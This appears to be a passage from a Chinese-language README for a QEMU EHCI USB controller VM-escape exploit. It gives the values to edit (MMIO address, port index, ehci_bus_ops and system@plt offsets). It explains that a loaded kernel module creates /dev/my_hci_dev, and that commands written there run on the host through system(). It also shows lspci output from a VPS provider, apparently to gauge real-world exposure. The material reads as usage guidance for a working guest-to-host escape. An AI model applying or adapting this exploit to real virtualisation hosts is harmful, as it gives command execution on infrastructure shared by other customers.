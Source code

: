 需要修改:
```c
static unsigned long mmio_addr = 0xfebd5000; //为EHCI的MMIO地址，可以通过lspci -v 查看，（注意，由于我是手动创建的一个EHCI，而Q35芯片组会默认创建一个，要注意区分他们，不是ICH9中的哪个EHCI）
static unsigned long mmio_size = 0x1000;//EHCI的MMIO的大小
static unsigned long port_idx = 2;//USB 端口号
static int companion  = 0;// 1 for ehci_bus_ops_companion,0 for ehci_bus_ops_standalone（手动创建的usb ehci为0，默认创建为1）
static unsigned long ops_standalone_addr = 0x00000000011d0e40 ;//ehci_bus_ops_standalone 偏移
static unsigned long ops_companion_addr = 0x00000000011d0e30;//ehci_bus_ops_companion 偏移
uint64_t system_call_addr = 0x2c1b20; //system@plt的偏移
```

还得根据你编译的QEMU版本，修改get_*_addr函数中的字段偏移为正确值。

注意：由于会多次调用irq_handler，会导致一条命令执行多次。

# 演示

编译模块代码，然后加载，其会在/dev中创建一个my_hci_dev的设备文件，往里面写命令即可。
![image](images/312FBCB409DD4CD2AF35D4FEDF3CA053pwn.png)

# 危害分析

不影响主流的公有云。

比如在某VPS厂商上

```
[root /]# virt-what
kvm
[root /]# lspci
00:00.0 Host bridge: Intel Corporation 440FX - 82441FX PMC [Natoma] (rev 02)
00:01.0 ISA bridge: Intel Corporation 82371SB PIIX3 ISA [Natoma/Triton II]
00:01.1 IDE interface: Intel Corporation 82371SB PIIX3 IDE [Natoma/Triton II]
00:01.3 Bridge: Intel Corporation 82371AB/EB/MB PIIX4 ACPI (rev 03)
00:02.0 VGA compatible controller: Cirrus Logic GD 5446
00:03.0 Unclassified device [00ff]: Red Hat, Inc. Virtio memory balloon
00:04.0 Communication controller: Red Hat, Inc. Virtio console
00:05.0 SCSI storage controller: Red Hat, Inc. Virtio SCSI
00:06.0 Communication controller: Red Hat, Inc. Virtio console
00:07.0 Communication controller: Red Hat, Inc. Virtio console
00:12.0 Ethernet controller: Red Hat, Inc. Virtio network device
00:13.0 Ethernet controller: Red Hat, Inc. Virtio network device
00:1e.0 PCI bridge: Red Hat, Inc. QEMU PCI-PCI bridge
00:1f.0 PCI bridge: Red Hat, Inc. QEMU PCI-PCI bridge
```
